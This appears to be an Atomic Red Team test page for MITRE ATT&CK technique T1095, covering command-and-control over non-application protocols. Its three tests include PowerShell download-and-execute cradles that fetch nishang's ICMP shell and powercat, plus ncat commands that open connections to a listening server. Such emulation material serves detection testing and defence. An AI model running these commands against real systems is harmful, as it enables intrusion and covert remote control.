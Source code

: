 # T1095 - Standard Non-Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1095)
<blockquote>Use of a standard non-application layer protocol for communication between host and C2 server or among infected hosts within a network. The list of possible protocols is extensive. (Citation: Wikipedia OSI) Specific examples include use of network layer protocols, such as the Internet Control Message Protocol (ICMP), transport layer protocols, such as the User Datagram Protocol (UDP), session layer protocols, such as Socket Secure (SOCKS), as well as redirected/tunneled protocols, such as Serial over LAN (SOL).

ICMP communication between hosts is one example. Because ICMP is part of the Internet Protocol Suite, it is required to be implemented by all IP-compatible hosts; (Citation: Microsoft ICMP) however, it is not as commonly monitored as other Internet Protocols such as TCP or UDP and may be used by adversaries to hide communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - ICMP C2](#atomic-test-1---icmp-c2)

- [Atomic Test #2 - Netcat C2](#atomic-test-2---netcat-c2)

- [Atomic Test #3 - Powercat C2](#atomic-test-3---powercat-c2)


<br/>

## Atomic Test #1 - ICMP C2
This will attempt to  start C2 Session Using ICMP. For information on how to set up the listener
refer to the following blog: https://www.blackhillsinfosec.com/how-to-c2-over-icmp/

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address of the listening server | ip | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.WebClient).Downloadstring('https://raw.githubusercontent.com/samratashok/nishang/c75da7f91fcc356f846e09eab0cfd7f296ebf746/Shells/Invoke-PowerShellIcmp.ps1')
Invoke-PowerShellIcmp -IPAddress #{server_ip}
```






<br/>
<br/>

## Atomic Test #2 - Netcat C2
Start C2 Session Using Ncat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|
| server_port | The port for the C2 connection | integer | 80|
| ncat_exe | The location of ncat.exe | path | $env:TEMP\T1095\nmap-7.80\ncat.exe|
| ncat_path | The folder path of ncat.exe | path | $env:TEMP\T1095|


#### Attack Commands: Run with `powershell`! 


```powershell
cmd /c #{ncat_exe} #{server_ip} #{server_port}
```




#### Dependencies:  Run with `powerShell`!
##### Description: ncat.exe must be available at specified location (#{ncat_exe})
##### Check Prereq Commands:
```powerShell
if( Test-Path "#{ncat_exe}") {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powerShell
New-Item -ItemType Directory -Force -Path #{ncat_path} | Out-Null
$parentpath = Split-Path (Split-Path "#{ncat_exe}"); $zippath = "$parentpath\nmap.zip"
Invoke-WebRequest  "https://nmap.org/dist/nmap-7.80-win32.zip" -OutFile "$zippath"
  Expand-Archive $zippath $parentpath -Force
  $unzipPath = Join-Path $parentPath "nmap-7.80"
if( $null -eq (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | ?{$_.DisplayName -like "Microsoft Visual C++*"}) ) {
  Start-Process (Join-Path $unzipPath "vcredist_x86.exe")
}
```




<br/>
<br/>

## Atomic Test #3 - Powercat C2
Start C2 Session Using Powercat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | ip | 127.0.0.1|
| server_port | The port for the C2 connection | port number | 80|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.Webclient).Downloadstring('https://raw.githubusercontent.com/besimorhino/powercat/ff755efeb2abc3f02fa0640cd01b87c4a59d6bb5/powercat.ps1')
powercat -c #{server_ip} -p #{server_port}
```






<br/>
